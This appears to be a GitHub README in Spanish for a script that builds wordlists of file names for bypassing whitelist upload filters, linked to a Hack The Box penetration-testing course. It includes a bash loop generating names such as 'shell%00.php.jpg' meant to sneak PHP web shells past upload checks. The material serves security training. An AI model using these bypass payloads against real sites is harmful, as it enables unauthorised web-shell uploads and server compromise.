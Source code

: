 # Character-Injection-2-extension

Simple script que permite generar diccionarios para la inyeccion en el bypass de file upload de CPTS (https://academy.hackthebox.com/module/136/section/1289) Filtros de lista blanca, basicamente es el siguiente script, "pero mejorado".

for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done

## New Script

## IMG 1

Ingresa el nombre de la carga util y la extension permitida por la pagina donde cargaras el archivo (ej. shell y .jpg).

![Image](https://github.com/user-attachments/assets/6a20b497-4376-48d6-8098-01127ec288ba)

## IMG 2

Se crearan 4 diccionarios o wordlist.

![Image](https://github.com/user-attachments/assets/b6f50a57-28a5-4407-980e-22c6c51df185)

## IMG 3

Imagen de ejemplo de creacion.

![Image](https://github.com/user-attachments/assets/3f280d48-6031-4721-8eff-30b57e4b9fc1)

## IMG 4

![Image](https://github.com/user-attachments/assets/921d9268-321a-4ae2-bad3-b02beab2af4d)

## Uso

Solo descarga la herramienta.

Luego dale permisos con chmod +x

y ejecuta.
